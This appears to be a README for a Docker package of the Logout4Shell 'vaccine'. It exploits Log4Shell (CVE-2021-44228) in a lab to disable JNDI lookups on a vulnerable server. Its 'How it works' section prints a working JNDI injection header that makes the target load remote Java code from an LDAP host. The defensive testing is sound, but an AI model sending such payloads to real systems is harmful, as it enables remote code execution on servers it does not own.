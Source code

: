 # Logout4Shell Container

## Description

Since the disclosure of the Apache Log4j vulnerability affecting versions 2.0 through 2.14.1 in December of 2021, enterprises and small businesses have made it a priority to mitigate this risk. This vulnerability was given the highest possible severity rating of 10 when the CVE-2021-44228 was published on December 9, 2021 which allows remote code execution on vulnerable servers. 

With the guidance from the Apache software foundation, the best mitigation against this vulnerability is to patch log4j to 2.17.0 and above. In response to this 
vulnerability organizations like Cybereason and FullHunt have developed tools to scan for the vulnerability and mitigate this risk without the need to patch 
or restart the server.

Logout4Shell Container is not intended to take any credit for the research and development of these tools, but was developed for POC and ease of deployment.

More information regarding these tools can be found on [Cybereason Logout4Shell](https://github.com/Cybereason/Logout4Shell/blob/main/README.md) and 
[FullHunt log4j-scan](https://github.com/fullhunt/log4j-scan/blob/master/README.md)


## How Logout4Shell Container works

The Logout4Shell Container is an application consisting of the Cybereason Logout4Shell webserver and LDAP server. When a JNDI lookup with an appropriate HTTP header is sent to the vulnerable app, log4j interpolates the string and queries the LDAP server. The LDAP server then provides directory information for the Java class which is hosted on the webserver through the Transient and Persistent payloads. The payload remediates the log4j vulnerabilty by changing the FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value from False to True. A quick warning that I haven't used this remediation in a production environment. More information regarding the potential impact it may have in a production environment can be read in Cybereason's documentation.

## POC Test Environment

- Logout4Shell Container deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- FullHunt log4j scan deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- Vulnerable app deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance. More information regarding this vulnerable app can be found on [Log4Shell sample vulnerable application]( https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md).

## Test Environment Setup

### Logout4Shell Container

1. Launch an EC2 instance with the user data script below. This will run an OS update, install and start the Docker engine, ensure that the Docker daemon starts after each system reboot, and install git:
```
#!/bin/bash
yum update -y
amazon-linux-extras install -y docker
service docker start
system reboot
systemctl enable docker
yum install -y git
```
2. Install the latest version of Docker Compose:
```
sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```
3. Adjust permissions:
```
sudo chmod +x /usr/local/bin/docker-compose
```
4. Clone Logout4Shell Container repository:
```
git clone https://github.com/gbarretto/logout4shell-container.git
```
5. Change directory to logout4shell-container.
```
cd logout4shell-container
```
6. Open var.env in GNU nano to edit.
```
nano var.env
```
7. Replace ```<host_ip>``` with the public IP address of the EC2 instance making sure to keep quotation marks.  
8. Replace ```<mode_type>``` with Transient or Persistent making sure to keep quotation marks. 
9. Press ```Control + X``` to bring you to Save modified buffer question. Then press ```Y```. Then press ```Enter``` to write changes to var.env file.
10. Run the command below to add the ec2-user to the docker group so you can execute Docker commands without using sudo:
```
sudo usermod -a -G docker ec2-user
```
11. Log out of your SSH session using ```exit``` and log back in again to pick up the new docker group permissions. 
12. Change directory to logout4shell-container:
```
cd logout4shell-container
```
13. Build Docker images using the command below:
```
docker-compose build
```
- When images are successfully built you'll see:
```
Successfully built XXXXXXXXXXXX
Successfully tagged gbarretto/cybereason:ldap-persistent
```
14. Launch the container in detached mode:
```
docker-compose up -d
```
- When the containers is successfully launched you'll see:
```
Creating network "logout4shell-container_default" with the default driver
Creating webserver       ... done
Creating ldap-persistent ... done
```

### FullHunt log4j scan
1. Launch an EC2 instance with the same user data script from above.
2. SSH into your instance in a new terminal window and run the commands below to build the FullHunt log4j scan.
```
git clone https://github.com/fullhunt/log4j-scan.git
cd log4j-scan
sudo docker build -t log4j-scan .
```

### Vulnerable app
1. Launch an EC2 instance with the same user data script from above. Adjust the security group to allow inbound connection from the IP address of the Logout4Shell container on ports 1389, 8888 and 443 and from the IP address of the FullHunt log4j scan on port 443.
3. SSH into your instance in a new terminal window and run the command below to run the vulnerable app via Docker.
```
docker run --name vulnerable-app --rm -p 443:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
- You want to make sure this container isn't publicly accessible.

### Adjust Security Group for Logout4Shell Container
1. In the AWS Management Console adjust the security group for the Logout4Shell Container to allow inbound connection from the IP address of the Vulnerable App on ports 1389 and 8888.

## How it works
1. Let's first vaildate that the Vulnerable app is indeed vulnerable. From the FullHunt log4j scan terminal window, execute the command below replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance.
```
sudo docker run -it --rm log4j-scan -u http://<Vulnerable_App_IP_Address>:443
```
- After a few seconds you should receive the following response:
```
[!!!] Target Affected
```
2. To vaccinate the Vulnerable app run the command below from the Logout4Shell Container terminal window replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance and ```<Logout4Shell_Container_IP_Address>``` with the IP address of the Logout4Shell Container instance:
```
curl <Vulnerable_App_IP_Address>:443 -H 'X-Api-Version: ${jndi:ldap://<Logout4Shell_Container_IP_Address>:1389/a}'
```
- After a few seconds you should receive a similar response in the Vulnerable app terminal window:
```
HelloWorld                               : Received a request for API version ${jndi:ldap://XX.XX.XXX.XXX:1389/a}
```
- If you scroll up in the same window you should see the output below validating the Transient or Persistent payload was executed:
```
Setting FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value to True
````
3. Run the FullHunt log4j scan again and you should receive the output below validating the log4j vulnerability has been remediated:
```
[•] Targets do not seem to be vulnerable.
```
